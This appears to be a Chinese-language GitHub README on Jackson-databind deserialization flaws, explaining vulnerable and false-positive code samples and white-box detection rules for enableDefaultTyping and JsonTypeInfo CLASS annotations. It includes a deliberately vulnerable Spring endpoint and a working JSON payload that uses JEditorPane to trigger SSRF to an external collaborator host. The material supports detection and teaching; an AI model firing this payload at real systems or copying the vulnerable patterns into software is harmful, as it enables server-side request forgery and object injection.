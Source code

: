 # jackson-databind-POC

### 存在漏洞示例/误报示例

先看几个白盒检测存在漏洞的示例：
来源：https://github.com/find-sec-bugs/find-sec-bugs/blob/master/findsecbugs-samples-java/src/test/java/testcode/serial/UnsafeJacksonObjectDeserialization.java

```java
public class UnsafeJacksonObjectDeserialization {

    static class ABean {
        public int id;
        public Object obj;
    }

    static class AnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.CLASS)
        public Object obj;
    }

    static class YetAnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.MINIMAL_CLASS)
        public Object obj;
    }

    public void exampleOne(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        Object obj = mapper.readValue(JSON, ABean.class);
    }

    public void exampleTwo(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_CONCRETE_AND_ARRAYS);
        Object obj = mapper.readValue(JSON, ABean.class);
    }

    public void exampleThree(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, AnotherBean.class);
    }

    public void exampleFour(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, YetAnotherBean.class);
    }

}
```

从上面的四个例子可以总结出存在漏洞的jackson代码有这么几种情况：
- 1、exampleOne开启了DefaultTyping，且被序列化的类里有一个Object类型，默认空的构造器与`OBJECT_AND_NON_CONCRETE`等价，是第二等级的，可以进行对象注入；
- 2、exampleTwo开启了DefaultTyping，且被序列化的类里有一个Object类型，且接口类和抽象类都能被反序列化，是第三等级的，更可以进行对象注入；
- 3、exampleThree虽然没有开启DefaultTyping，但是其被序列化的类被`JsonTypeInfo.Id.CLASS`修饰，可以通过`@class`进行对象注入；
- 4、exampleThree虽然没有开启DefaultTyping，但是其被序列化的类被`JsonTypeInfo.Id.MINIMAL_CLASS`修饰，可以通过`@c`进行对象注入；


再看一个jackson反序列化白盒检测的误报示例：
来源：https://github.com/find-sec-bugs/find-sec-bugs/blob/master/findsecbugs-samples-java/src/test/java/testcode/serial/JacksonSerialisationFalsePositive.java


```java
public class JacksonSerialisationFalsePositive implements Serializable {

    static class Bean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.NAME)
        public Object obj;
    }

    public void exampleOne(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, JacksonSerialisationFalsePositive.class);
    }

    public void exampleTwo(String JSON)  throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        Object obj = mapper.readValue(JSON, Bean.class);
    }
}
```

说明：
- 1、exampleOne中没有开启DefaultTyping，且其待反序列化的类没有使用`JsonTypeInfo.Id.CLASS/MININAL_CLASS`修饰，所以无法进行对象注入；
- 2、exampleTwo中没有开启DefaultTyping，且其待反序列化的类没有使用`JsonTypeInfo.Id.CLASS/MININAL_CLASS`修饰，所以无法进行对象注入；


### jackson反序列化白盒检测
#### 第一个特征是关于 EnableDefaultTyping 的，注意他的多个重载方法，共有4个：
```java
ObjectMapper enableDefaultTyping()
ObjectMapper enableDefaultTyping(DefaultTyping dti)
ObjectMapper enableDefaultTyping(DefaultTyping applicability, JsonTypeInfo.As includeAs)
ObjectMapper enableDefaultTypingAsProperty(DefaultTyping applicability, String propertyName)
```
只要匹配到，就算命中了条件A。

#### 第二个特征是在 readValue 时候，指定的类本身是Object或者里面一定要包含Object类型字段或者Object类型的setter。
```java
public <T> T readValue(String content, JavaType valueType)
public <T> T readValue(Reader src, Class<T> valueType)
public <T> T readValue(Reader src, TypeReference valueTypeRef)
public <T> T readValue(Reader src, JavaType valueType)
```
所以只要匹配到这个，就需要对第二个参数进行解析，确认这个Model是否是可以被攻击的Model。如果包含了Object或者本身就是个Object，就认为命中了条件B。


#### 第三个特征是被反序列的类里面，有被 JsonTypeInfo 注解过的类，而且里面的内容是 `JsonTypeInfo.Id.CLASS` 或 `JsonTypeInfo.Id.MINIMAL_CLASS` 。记做条件C。

最终条件就是  (A&&B) || C。


下面给出一个C的示例：

```java
public class Jackson {

    static class AnotherBean {
        @JsonTypeInfo (use = JsonTypeInfo.Id.CLASS)
        public Object obj;
    }

    @RequestMapping(value = "/deserialize3", method = {RequestMethod.POST})
    @ResponseBody
    public static String deserialize3(@RequestBody String params) throws IOException {
        System.out.println(params);
        try {
            ObjectMapper objectMapper = new ObjectMapper();
            Object obj = objectMapper.readValue(params, AnotherBean.class);
            return obj.toString();
        }  catch (Exception e){
            e.printStackTrace();
            return e.toString();
        }
    }

```
相应的payload为：
```http
POST /jackson/deserialize3 HTTP/1.1
Host: cqq.com:8080
Connection: close
Cookie: JSESSIONID=C48313A5CE14AE7A1C15696C03AE0893
Content-Type: application/json
Content-Length: 127

{"obj":{"@class":"javax.swing.JEditorPane","page":"http://ivh6gf9nkrbys3l03uppuzvv9mfg35.burpcollaborator.net:80/?a=1&b=2222"}}
```


### Demo
下面演示从HTTP请求到Spring的方法，然后readValue，最后触发gadget的方法。这里是一个SSRF的例子。
![](jackson-JsonTypeInfo_id_class-poc.gif)


### 参考
- https://github.com/JoyChou93/java-sec-code
- https://www.leadroyal.cn/?p=594
- https://www.leadroyal.cn/?p=630
- [Jackson反序列化漏洞简介（四）： 防御和检测方式【系列完结】](https://www.leadroyal.cn/?p=633)
